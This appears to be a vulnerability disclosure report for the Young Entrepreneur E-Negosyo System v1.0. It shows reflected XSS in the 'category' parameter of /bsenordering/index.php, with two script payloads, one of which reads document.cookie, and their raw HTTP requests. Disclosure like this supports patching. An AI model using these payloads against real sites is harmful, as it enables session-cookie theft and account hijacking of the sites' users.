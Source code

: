 # Young Entrepreneur E-Negosyo System v1.0 has Cross-site scripting (reflected)

BUG_Author:mengleng

Website source address:https://www.sourcecodester.com/php/12684/young-entrepreneur-e-negosyo-system.html

Vulnerability File: /bsenordering/index.php

GET parameter 'category' exists XSS vulnerability

Payload1:/bsenordering/index.php?category=<script>alert(222)</script>&q=product

```
GET /bsenordering/index.php?category=%3Cscript%3Ealert(222)%3C/script%3E&q=product HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8e6rkj7p73lhg2ik56f55rfoc2
Connection: close
```

![image](https://github.com/2714925725/bug_report/blob/main/pic/xss1.png)

Payload2:/bsenordering/index.php?category=<script>alert(document.cookie)</script>&q=product

```
GET /bsenordering/index.php?category=%3Cscript%3Ealert(document.cookie)%3C/script%3E&q=product HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8e6rkj7p73lhg2ik56f55rfoc2
Connection: close
```

![image](https://github.com/2714925725/bug_report/blob/main/pic/xss2.png)
